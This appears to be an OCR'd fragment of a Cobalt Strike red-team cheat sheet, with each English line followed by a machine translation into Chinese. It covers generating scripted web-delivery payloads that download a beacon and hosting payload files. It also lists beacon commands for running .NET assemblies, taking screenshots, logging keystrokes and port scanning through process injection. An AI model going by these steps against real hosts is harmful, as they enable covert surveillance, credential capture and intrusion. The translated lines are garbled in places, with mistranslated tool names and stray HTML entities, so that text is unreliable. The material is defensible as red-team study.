 ####生成和主机有效载荷

`Attacks -> Web Drive-by -> Scripted Web Delivery (S)` This will generate a script/executable to download the beacon from cobalt strike in formats such as: bitsadmin, exe, powershell and python

`攻击 - > Web Drive -by->脚本网络交付（S）`这将生成一个脚本/可执行文件，以从钴罢工中下载信标，以：BITSADMIN，EXE，POWERSHELL和PYTHON

#### Host Payloads

####主机有效载荷

If you already has the file you want to host in a web sever just go to `Attacks -> Web Drive-by -> Host File` and select the file to host and web server config.

如果您已经拥有要在Web服务器中托管的文件，则只需转到“攻击 - > Web驱动器 - >主机文件”，然后选择用于主机和Web服务器配置的文件。

### Beacon Options

###信标选项

<pre class="language-bash"><code class="lang-bash"># Execute local .NET binary

<pre class =“ language-bash”> <code class =“ lang-bash”>＃执行本地.net二进制
execute-assembly &#x3C;/path/to/executable.exe>

execute-eSembly＆＃x3c;/path/to/executable.exe>

# Screenshots

＃屏幕截图
printscreen    # Take a single screenshot via PrintScr method

打印屏幕＃通过打印屏幕方法拍摄单个屏幕截图
screenshot     # Take a single screenshot

屏幕截图＃拍摄单个屏幕截图
screenwatch    # Take periodic screenshots of desktop

ScreenWatch＃进行桌面的定期屏幕截图## Go to View -> Screenshots to see them

##去查看 - >屏幕截图查看它们

# keylogger
keylogger [pid] [x86|x64]
## View > Keystrokes to see the keys pressed

## view>击键要查看按键

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Inject portscan action inside another process
